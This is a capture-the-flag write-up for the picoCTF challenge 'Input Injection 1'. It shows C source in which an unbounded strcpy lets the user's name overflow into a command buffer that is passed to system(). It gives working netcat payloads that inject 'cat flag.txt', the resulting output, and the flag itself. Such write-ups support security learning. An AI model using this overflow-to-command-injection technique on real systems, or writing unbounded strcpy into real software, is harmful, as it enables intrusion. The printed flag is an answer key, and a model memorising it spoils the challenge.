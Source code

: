 ```yaml
---
title: "Input Injection 1"
category: "Binary Exploitation"
description: "A friendly program wants to greet you… but its goodbye might say more than it should. Can you convince it to reveal the flag?"
---
```


## Information given

#### Description

A friendly program wants to greet you… but its goodbye might say more than it should. Can you convince it to reveal the flag?

Additional details will be available after launching your challenge instance.

#### Hints
Look closely at how the program stores and uses your input.
### Source Code (`vuln.c`)

```c
void fun(char *name, char *cmd) {

	char c[10];
	char buffer[10];
	
	strcpy(c, cmd);
	strcpy(buffer, name); // VULNERABLE: No bounds checking
	
	printf("Goodbye, %s!\n", buffer);
	
	fflush(stdout);
	system(c); // Executes our overwritten command

}
```

  

### Vulnerability

`strcpy(buffer, name)` on line 25.

No bounds checking allows overflow of `buffer[10]` into adjacent `c[10]` array

### Exploit Payloads

```bash

# Get the flag

echo "AAAAAAAAAAcat flag.txt" | nc saffron-estate.picoctf.net 49685

  

# List directory contents

echo "AAAAAAAAAAls" | nc saffron-estate.picoctf.net 49685

```

###  Exploitation

```bash

$ echo "AAAAAAAAAAcat flag.txt" | nc saffron-estate.picoctf.net 49685

What is your name?

Goodbye, AAAAAAAAAAcat flag.txt!

picoCTF{0v3rfl0w_c0mm4nd_d3eb7161}

```

## Flag

The flag is: `picoCTF{0v3rfl0w_c0mm4nd_d3eb7161}`.

---